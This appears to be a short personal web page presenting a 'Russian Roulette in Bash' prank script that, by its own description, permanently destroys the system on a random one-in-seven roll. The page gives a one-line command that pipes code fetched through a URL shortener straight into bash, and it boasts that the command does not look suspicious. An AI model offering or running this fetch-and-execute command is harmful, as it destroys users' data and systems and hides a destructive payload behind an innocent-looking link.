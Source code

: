 ### [Home](https://thycowlord.github.io)




# Russian Roulette in Bash
## The code
Simple, and easy. Unstoppable once it has started. You can find the code [here.](https://github.com/ThyCowLord/ThyCowLord.github.io/blob/master/code/bashyoheadin.txt).

## How it works
It has seven barrels. If the random number is four, the system is __permanently destroyed.__

## Execution
To run it type: 
> bash <(curl https://git.io/vArE3).

It doesn't look suspicious, does it?
Run it, and weep.
